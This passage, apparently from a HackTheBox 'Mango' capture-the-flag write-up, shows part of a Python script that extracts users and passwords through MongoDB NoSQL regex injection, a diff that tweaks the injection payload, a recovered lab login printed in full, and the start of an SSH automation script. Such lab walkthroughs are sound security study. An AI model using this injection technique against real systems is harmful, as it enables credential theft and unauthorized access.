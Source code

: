 ```py
            else:
                iterator = iterator + 1
    print("[+] Password Fouuuuund!!!!! : %s [+]" %password)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()

    rhost = args.target
    '''Here we call the functions'''
    # Let's exfiltrate the admin user
    userExtract(rhost)
    # Let's get the password
    passExtract(rhost,username)
if __name__ == '__main__':
    main()
```

Ok, now that we have an user and a password, let's try to ssh in

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-13-HackTheBox-Mango/2021-09-13-HackTheBox-Mango%2007:42:09.png)

No success... We could try to find another user on the server.

A small difference on the script

```py
- "username[$regex]": "^"+username+c,
+ "username[$regex]": "^(?!admin)"+username+c,
```

It's to find any other user unless the admin one. When we run again we found another user and pass

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-13-HackTheBox-Mango/2021-09-13-HackTheBox-Mango%2007:52:49.png)

Got it!

# Mango SSH

Once we got credentials...

`mango:h3mXK8RhU~f{]f5H`

Now, we ssh into the box

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-13-HackTheBox-Mango/2021-09-13-HackTheBox-Mango%2007:44:36.png)

We can automate it too

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-13-HackTheBox-Mango/2021-09-13-HackTheBox-Mango%2008:46:34.png)

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# NOSQL User and Passwod Exfiltrate and SSH Login Auto - Mango HackTheBox
# Date: 13/09/21

import argparse
import requests
import sys
import string
import os
import subprocess

'''Setting up something important'''
```